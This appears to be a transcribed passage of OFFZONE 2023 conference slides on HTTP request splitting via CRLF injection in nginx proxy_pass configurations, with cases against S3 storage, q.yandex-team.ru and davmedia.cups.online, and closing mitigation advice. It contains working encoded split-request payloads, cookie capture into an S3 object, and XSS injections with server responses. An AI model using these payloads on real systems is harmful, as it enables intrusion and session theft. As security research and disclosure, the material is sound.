Text visible inside the screenshot:

```text
Response
Pretty  Raw  Hex  Render
 1 HTTP/1.1 200 OK
 2 x-amz-id-2: ClxiR36rHw5Um7Sybjqx9OkWXU4vVBEWOnv+oYGHCtKvuqDem9iAQqZT4to4kmYM8FKnOSL+1As=
 3 x-amz-request-id: 7ZWGQ1R187OEM12M
 4 Date: Mon, 26 Jun 2023 15:40:06 GMT
 5 Last-Modified: Mon, 26 Jun 2023 15:39:09 GMT
 6 ETag: "c7322d9ce0a1d7c206d3eee4e06c8145"
 7 x-amz-server-side-encryption: AES256
 8 Accept-Ranges: bytes
 9 Content-Type: binary/octet-stream
10 Server: AmazonS3
11 Content-Length: 1000
12
13  HTTP/1.0
14 Host: [redacted].s3.amazonaws.com
15 Connection: close
16 Content-Length: 1000
17 Pragma: no-cache
18 Cache-Control: no-cache
19 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114
20 Content-Type: text/plain
21 Accept: */*
22 Origin: http://local
23 Referer: http://local/s3/put_poc.html%20HTTP/1.1%0D%0AHost:[redacted]%0D%0A%0D%0A
24 Accept-Encoding: gzip, deflate
25 Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
26 Cookie: secret=value
27
28 XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

(line 26 `Cookie: secret=value` is underlined in red)

[The screenshot is clipped at the right edge; redacted values and the unseen continuation are not reconstructed.]

## Page 56

Case #3: Amazon S3

This exploitation of the vulnerability is relevant in HTTP Splitting on any object storage. For example:

- VK Cloud Storage
- Yandex Object Storage

If the storage does not allow unauthorized file uploads, create AccessKey and add HTTP header to the payloads.

- `Authorization: AWS <access_key>:<signature>`
- Date: <current_date>

## Page 57

[Slide: title slide with OFFZONE 2023 logo and a stylized blue-lit hardware device on the right]

Case #4

q.yandex-team.ru

## Page 58

Case #4: q.yandex-team.ru

```nginx
proxy_pass http://$proxy_host/chat/internal$uri$is_args$args;
proxy_set_header Host $proxy_host;
proxy_set_header X-Yandex-Https yes;
```

```http
GET /%20HTTP/1.1%0D%0AX:%20x HTTP/1.1
Host: q.yandex-team.ru
```

```http
GET /chat/internal HTTP/1.1
X: x HTTP/1.1
Host: yandex.ru
```

## Page 59

Case #4: q.yandex-team.ru

Any exploit attempts to move part of the HTTP request into the HTTP body would return a 302 redirect

```http
GET /%20HTTP/1.1%0D%0AHost:test.yandex.ru%0D%0A%0D%0A HTTP/1.1
Host: q.yandex-team.ru
```

```http
HTTP/1.1 302 Moved temporarily
[…]
Location: https://yandex.ru/chat/internal/
```

## Page 60

Case #4: q.yandex-team.ru

Frontend can use custom headers that affect how the backend handles the HTTP request

```nginx
proxy_pass http://$proxy_host/chat/internal$uri$is_args$args;
proxy_set_header Host $proxy_host;
proxy_set_header X-Yandex-Https yes;
```

[The X-Yandex-Https directive is highlighted.]

## Page 61

Case #4: q.yandex-team.ru

After forming the correct headers, this turned into a regular XSS via Host

```http
GET /%20HTTP/1.1%0aX-Yandex-Https:yes%0aHost:--%3E%3Cs%3E123xxx.yandex.ru%0a%0a HTTP/1.1
Host: q.yandex-team.ru
```

[Screenshot: Burp Suite Response panel, Raw tab, showing an HTML comment block with the injected host]

Text visible inside the screenshot:

```text
Response
Pretty  Raw  Hex  Render
15 <!--
16 Visible only on Yandex internal network.
17
33 Request:
34     host:     --><s>123xxx.yandex.ru
35     build:    yamb
36     reqid:    1679915017412620-16409412655207956908-sas6-5244-da7-sas-17-balancer-8080-BAL-1598
37 -->
```

## Page 62

[Slide: title slide with OFFZONE 2023 logo and a stylized blue-lit hardware device on the right]

Case #5

davmedia.cups.online

## Page 63

Case #5: davmedia.cups.online

Example when the backend supports HTTP pipelining

[Diagram: user sends a CRLF Injection to a first server, which forwards two requests to a second server and receives two responses back, then returns one response to the user]

Text inside the diagram:
- CRLF Injection



## Page 64

Case #5: davmedia.cups.online

```http
GET /contests/%20HTTP/1.1%0d%0aHost:cups.online%0d%0a%0d%0aGET%20/%3cscript%3ealert(document.domain)%3c/script%3e%20HTTP/1.1%0d%0aHost:%20xxx%0d%0aX: HTTP/1.1
Host: davmedia.cups.online
```

```http
GET /contests/ HTTP/1.1
Host:cups.online
```
404 Not Found
Content-Type: text/html

```http
GET /<script>alert(document.domain)</script> HTTP/1.1
Host: xxx
X: HTTP/1.1
Host: davmedia.cups.online
```
301 Moved Permanently



## Page 65

Case #5: davmedia.cups.online

- Sometimes an HTTP request responded with two HTTP responses
- Second HTTP response was part of the HTTP Body of the first response
- Why? ¯\_(ツ)_/¯

[Screenshot: Burp Suite Response panel, Raw tab, showing a 404 error page followed by a second HTTP response inside the body]

Text visible inside the screenshot:

```text
Response
Pretty  Raw  Hex  Render  Hackvertor
34     <div class="errorPage errorPage--404">
35         <div class="errorPage__body">
36             <div class="main__title errorPage__title">Ошибочка</div>
37             <p class="errorPage__text">Такая страница не найдена.</p>
38             <a href="/" class="button button--border2" type="button">На главную</a>
39         </div>
40     </div>
41 </div>
42
43 </body>
44 </html>
45 HTTP/1.1 301 Moved Permanently
46 Server: nginx
47 Date: Tue, 23 May 2023 22:43:35 GMT
48 Content-Type: text/html
49 Content-Length: 178
50 Connection: close
51 Location: https://cups.online/<script>alert(document.domain)</script>
52
53 <html>
54 <head><title>301 Moved Permanently</title></head>
55 <body bgcolor="white">
```

(the `<script>alert(document.domain)</script>` on line 51 is highlighted in yellow)

## Page 66

Case #5: davmedia.cups.online

[Screenshot: Chrome browser window titled "All Cups" showing the page with a JavaScript alert dialog]

Text visible inside the screenshot:

```text
https://davmedia.cups.online/contests/%20HTTP/1.1%0d%0aHost:cups.online%0d%0a...
```

Ошибочка

Такая страница не найдена.

На главную
HTTP/1.1 301 Moved Permanently Se[…]t/html Content-Length: 178
Connection: close Location: https://cup[…]

davmedia.cups.online says
davmedia.cups.online
OK

301 Moved Permanently

nginx

## Page 67

Mitigation

Use $request_uri instead of $uri, $document_uri

In the exclusion ranges of the regular expression, add whitespace characters (\s).

```nginx
location ~ /docs/([^/]*)? { … $1 … }              # vulnerable
location ~ /docs/([^/\s]*)? { … $1 … }            # not vulnerable
```

## Page 68

[Slide: OFFZONE 2023 logo only, centered]
